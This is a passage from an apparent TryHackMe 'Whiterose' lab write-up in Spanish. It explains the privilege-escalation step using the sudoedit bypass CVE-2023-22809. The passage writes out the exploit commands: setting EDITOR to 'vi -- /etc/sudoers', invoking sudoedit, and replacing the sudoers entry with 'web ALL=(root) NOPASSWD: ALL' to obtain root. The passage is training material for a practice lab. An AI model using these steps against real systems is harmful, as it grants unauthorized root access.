 La explotación de la vulnerabilidad consiste en que `sudoedit` no verifica correctamente los permisos de archivos cuando se utiliza con ciertas opciones, como `--` seguido de un comando, esto permite aprovechar la vulnerabilidad para ejecutar un editor de texto como `vi` o `vim` con permisos elevados, lo que permite la edición de archivos críticos del sistema **[Fuente](https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis#Exploitation)**

Primero, con `export EDITOR="vi -- /etc/sudoers"` lo que hacemos es establecer el editor predeterminado para las herramientas que requieren un editor de texto. En este caso, se está configurando el editor `vi` para que, cuando se ejecute, abra automáticamente el archivo `/etc/sudoers` 

Luego, como ejecutamos `sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm` para tener acceso al `/etc/sudoers`

![Whiterose yw4rf](../../../assets/TryHackMe/whiterose/whiterose-29.png)

Al ejecutarlo nos abre el **editor de texto** `vi` y nos permite editar el `/etc/sudoers` eliminando la linea `web ALL=(root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm`
 
![Whiterose yw4rf](../../../assets/TryHackMe/whiterose/whiterose-30.png)

Para luego añadir la línea `web ALL=(root) NOPASSWD: ALL` lo que nos permite ser **root** sin necesidad de contraseña
